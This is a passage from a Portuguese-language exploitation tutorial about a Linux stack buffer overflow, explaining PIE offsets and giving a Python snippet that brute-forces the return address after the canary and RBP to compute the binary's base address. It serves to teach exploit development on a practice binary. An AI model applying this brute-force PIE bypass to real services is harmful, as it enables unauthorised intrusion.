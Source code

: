 Como o *PIE Protector* está ativado, estes bytes não são endereços de fato, mas sim *offsets* de endereço. Isto significa que quando o binário for iniciado, um endereço **base aleatório** será gerado, e os endereços de função serão este endereço base + o offset.
Em outras palavras, os endereços mudam, mas as distâncias entre um endereço e outro são sempre os mesmos.
Analisando o disassembly da função `main` é possível encontrar o offset do endereco de retorno da função `func`, conforme imagem abaixo:

![Endereço de retorno da função func = 0x0000000000001246](/img/std/linbof/exploit-3.png)

O *offset* do endereço de retorno tem o valor de `0x1246`, isso significa, que se for possível obter o valor de retorno da função `func`, ou **RIP** em tempo de execução, e subtrair o valor do offset, chega-se ao valor base dos endereços do binário durante a específica execução.

Para encontrar o valor exato de **RIP** durante a execução, é possível reaproveitar o *brute force* realizado no *Canary*, porém, ao invés de enviar somente o *buffer* inicial, será enviado o *buffer + Canary + valor de RBP*, o script do exploit será atualizado com as seguintes linhas:

```python
#incrementando o buffer com o valor do Canary + RBP
CANARY = offset + canary + rbp

#Inicio do Brute Force do endereco de retorno
print("[+] Procurando valor de retorno...")
ret = b""
for i in range(8):
        ret = ret + bruteforce(CANARY + ret)
ret = ret.ljust(8, b"\x00")
ret = u64(ret)[0]
print(f"[+] Valor de retorno: {hex(ret)}")

#Offset do endereco de retorno
offset_ret = 0x1246
#calculando o endereco base
elf_base = ret - offset_ret
print(f"[+] ELF BASE @ {hex(elf_base)}")
```

Ao executar o script, o *exploit* fará o bruteforce do *Canary*, incluirá seu valor ao *buffer*, e iniciará o bruteforce do endereço de retorno. Assim que o endereço de retorno for encontrado, o script decrementará o valor de `0x1246` que é seu offset, chegando ao endereço base do binário.
